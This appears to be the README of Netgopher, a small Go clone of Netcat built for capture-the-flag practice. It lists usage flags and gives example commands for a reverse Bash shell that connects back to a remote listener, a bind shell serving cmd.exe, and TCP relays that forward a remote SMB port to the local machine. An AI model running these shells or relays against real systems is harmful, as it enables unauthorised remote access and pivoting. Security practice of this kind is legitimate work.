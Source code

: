 # Netgopher

This is a basic Go implementation of (bits of) Netcat, produced while working through the very-excellent [NoStarch Press Black Hat Go book](https://nostarch.com/blackhatgo). This implementation is TCP only, with limited features, but does everything I want Netcat to do during Capture The Flag exercises, including simpler (eye of the beholder!) port realying. 

## Usage

Netgopher allows you to connect to things together; these could be a bind listener, a TCP connection, an Operating System command, or the Stdin and Stdout of the console you're working in. Any connection must be specified in the *HOST:PORT* syntax and any OS command must be quoted as appropriate:

```
❯ ng                                                                                                 ─╯
Usage of ng:
  -c value
        Make a TCP Connection : -c 127.0.0.1:8080
  -e string
        Execute a command (quote) : -e '/bin/bash -i'
  -h    Print detailed usage.
  -l value
        Listen on a port : -l 4444
  -v    Display detailed progress messages.
```

## Examples

The simplest examples are the classic netcat usages, like connecting to a listening port on a remote host. You can try this out with a pair of listeners:

![Listener & connect example image](assets/basic.gif)

Some really common use cases I have are:

Start an interactive Bash shell and connect back to a remote listener:
```
# Start a listener on your remote machine
❯ ng -l 1234
# Start the shell
❯ ng -c remote_host:1234 -e '/bin/bash -i'
```

Or start the same shell on a bind listener; this is useful because you can create as many conenctions as you like - if your shell drops, just re-connect.
```
❯ ng -l 1234 -e 'cmd.exe'
# Now connect up to the shell
❯ ng -c serving_host:1234
C:\Windowss\system32>
^C
# Oh no! Your shell dropped - try again:
❯ ng -c serving_host:1234
C:\Windowss\system32>

```

Forward a TCP port back to a remote listener:
```
# Start a relay on your local host
❯ ng -l 1234 -l 445
# On your remote host, forward a connection to local port 445
❯ ng -c remote_host:1234 -c 127.0.0.1:445
# Your local machine now has access to that remote port 445 on 127.0.0.1:445
```

Port 'spoofing' - Forward incoming connections to local port:
```
# Listen on port 1234 and forward connections to ssh server
❯ ng -l 1234 -c 127.0.0.1:22
```
